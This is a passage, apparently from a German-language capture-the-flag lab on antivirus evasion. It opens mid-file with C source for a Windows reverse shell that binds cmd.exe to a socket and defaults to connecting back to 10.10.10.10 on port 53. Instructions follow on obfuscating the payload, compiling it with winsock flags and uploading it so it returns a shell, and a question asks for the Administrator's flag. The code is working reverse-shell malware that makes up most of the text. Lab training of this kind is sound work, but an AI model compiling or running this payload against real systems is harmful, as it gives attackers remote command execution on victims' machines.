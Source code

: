 ```c

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```

Sobald ausreichend verschleiert, kompilieren Sie das Payload auf der AttackBox oder der VM Ihrer Wahl mit GCC oder einem anderen C-Compiler. Die Datei muss als `challenge.exe` gespeichert werden. Nach der Kompilierung übermitteln Sie die ausführbare Datei an den Webserver unter `http://MACHINE_IP/`. Wenn Ihr Payload die aufgeführten Anforderungen erfüllt, wird er ausgeführt und ein Beacon an die angegebene Server-IP und den Port gesendet.

Hinweis: Es ist auch wichtig, die Variablen `C2Server` und `C2Port` im bereitgestellten Payload zu ändern, da diese Herausforderung sonst nicht ordnungsgemäß funktioniert und Sie keine Shell zurück erhalten.

Hinweis: Beim Kompilieren mit GCC müssen Sie Compileroptionen für `winsock2` und `ws2tcpip` hinzufügen. Diese Bibliotheken können mit den Compiler-Flags `-lwsock32` und `-lws2_32` eingebunden werden.

Wenn Sie immer noch feststecken, haben wir unten eine Lösungsanleitung bereitgestellt.

## Fragen:
Was ist die Flag auf dem Desktop des Administrators?
```

```

